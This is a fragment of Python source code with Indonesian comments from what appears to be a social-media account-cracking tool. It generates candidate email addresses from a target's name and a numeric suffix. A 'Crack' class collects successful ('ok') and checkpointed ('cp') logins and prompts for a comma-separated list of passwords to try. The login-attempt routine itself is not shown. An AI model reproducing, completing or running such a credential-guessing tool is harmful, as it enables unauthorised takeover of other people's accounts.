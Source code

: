 				tampung.append(z)

		except:pass

		

	###----------[ DUMP FILE ]---------- ###

	def Dump_Email(self,nama,format,limit):

		try:

			for z in range(int(limit)):

				if len(nama.split()) > 1:

					email = str(nama.split()[0])+str(nama.split()[1])+str(z)+str(format)+"<=>"+str(nama.split()[0])+" "+str(nama.split()[1])

				else:

					email = str(nama)+str(z)+str(format)+"<=>"+str(nama)

				if email in tampung:pass

				else:tampung.append(email)

		except:pass



###----------[ BAGIAN CRACK ]---------- ###

class Crack:

	

	###----------[ FUNCTION INIT ]---------- ###

	def __init__(self):

		self.loop = 0

		self.ok = []

		self.cp = []

		self.hari_ini = datetime.now().strftime("%d-%B-%Y")

		

	###----------[ ATUR SANDI DAN METODE ]---------- ###

	def atursandi(self):

		prints(Panel(f"""{P2}berhasil mengumpulkan {len(tampung)} id""",width=80,padding=(0,21),style=f"{color_panel}"))

		set = console.input(f" {H2}• {P2}apakah kamu ingin menggunakan sandi manual?(y/n) : ")

		

		###----------[ SANDI MANUAL ]---------- ###

		if set in["Y","y"]:

			prints(Panel(f"""{P2}silahkan buat katasandi dengan , (koma) sebagai pemisah tiap katasandi""",width=80,style=f"{color_panel}"))
